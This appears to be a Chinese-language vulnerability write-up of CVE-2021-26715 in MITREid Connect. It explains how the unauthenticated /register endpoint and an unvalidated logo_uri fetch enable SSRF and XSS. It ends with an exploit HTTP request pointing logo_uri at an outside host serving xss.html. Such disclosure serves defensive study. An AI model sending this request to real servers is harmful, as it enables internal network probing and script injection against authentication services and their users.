

### CVE-2021-26715: SSRF via "logo_uri" in MITREid Connect

[MITREid Connect](https://github.com/mitreid-connect/OpenID-Connect-Java-Spring-Server)可以看作是一个OAuth认证服务器。在默认配置下， 大部分页面都需要验证，我们无法从中创建新用户，因为只有admin允许创建新用户。

MITREid Connect实现了[OpenID Dynamic Client Registration](https://openid.net/specs/openid-connect-registration-1_0.html)协议，支持注册客户端OAuth程序。尽管只在管理员面板中引用了此功能，但实际上`/register`接口并没有检查当前用户的session。

通过查看源代码，我们发现MITREid Connect在以下场景使用"logo_uri"参数：

* 在注册过程中，客户端可以指定"logo_uri"参数，这个参数可以指定客户端应用程序的图像，并且可以是任意URL
* 在授权步骤中，当用户被提问是否同意新应用的访问请求时，认证服务器会发送一个HTTP请求来下载"logo_uri"参数中的图片，放入缓存，再和其他信息一起展示给用户

这个过程发生在用户访问`/openid-connect-server-webapp/api/clients/{id}/logo`接口时，这个接口会返回"logo_uri"的内容。具体来说，存在漏洞的controller位于[org.mitre.openid.connect.web.ClientAPI#getClientLogo](https://github.com/mitreid-connect/OpenID-Connect-Java-Spring-Server/blob/master/openid-connect-server/src/main/java/org/mitre/openid/connect/web/ClientAPI.java#L509)

由于服务器不会检查获取的图像是否是真实的图像，从而导致SSRF。

这个功能也可能被用于执行XSS攻击，因为`getClientLogo`这个controller没有响应头中指定任何图片的Content-Type，使攻击者可以从自己的URL中显示任何HTML内容。如果这个HTML包含了JavaScript代码，就会在认证服务器域中被执行。

### Exploit

如上所述，我们需要发送dynamic client registration请求。在这种情况下，至少要提供redirect_uri和logo_uri参数

```
POST /openid-connect-server-webapp/register HTTP/1.1
Host: local:8080
Content-Length: 118
Content-Type: application/json

{
  "redirect_uris": [
    "http://artsploit.com/redirect"
  ],
  "logo_uri": "http://artsploit.com/xss.html"
}
```

为了成功让服务器访问logo_uri中的url，我们可以访问`/api/clients/{clientID}/logo`页面
